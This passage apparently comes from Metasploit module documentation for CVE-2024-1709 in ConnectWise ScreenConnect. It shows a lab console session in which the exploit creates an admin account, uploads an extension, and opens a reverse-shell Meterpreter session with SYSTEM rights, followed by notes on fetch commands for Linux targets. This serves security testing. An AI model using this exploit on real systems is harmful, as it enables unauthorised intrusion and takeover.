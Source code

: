 ```


Exploit target:

   Id  Name
   --  ----
   1   Windows Command



View the full module info with the info, or info -d command.

msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > check
[*] 192.168.86.50:8040 - The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
[*] Created account: jwrrtiro:Jd6PXdiH2MwGw2Nq (Note: This account will not be deleted by the module)
[*] Uploaded Extension: c9bf4ee9-90b2-1ba7-ae4c-54ba6ee36a81
[*] Removing Extension: c9bf4ee9-90b2-1ba7-ae4c-54ba6ee36a81
[*] Sending stage (201798 bytes) to 192.168.86.50
[+] Deleted C:\Program Files (x86)\ScreenConnect\App_Extensions\nayjdyti.ashx
[*] Meterpreter session 3 opened (192.168.86.42:4444 -> 192.168.86.50:50550) at 2024-02-22 14:45:01 +0000

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-V28QNSO2H05
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > pwd
C:\Windows\system32
meterpreter > exit
[*] Shutting down session: 3

[*] 192.168.86.50 - Meterpreter session 3 closed.  Reason: User exit
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) >
```

#### Linux Command

Note: Linux targets run an older version of ScreenConnect, which require an older version of Linux (Ubuntu 18.04 in
our testing), so `CURL` may not be available, the `FETCH_COMMAND` can be set to `WGET` instead. The `FETCH_WRITABLE_DIR`
should be set to a suitable value like `/tmp`.
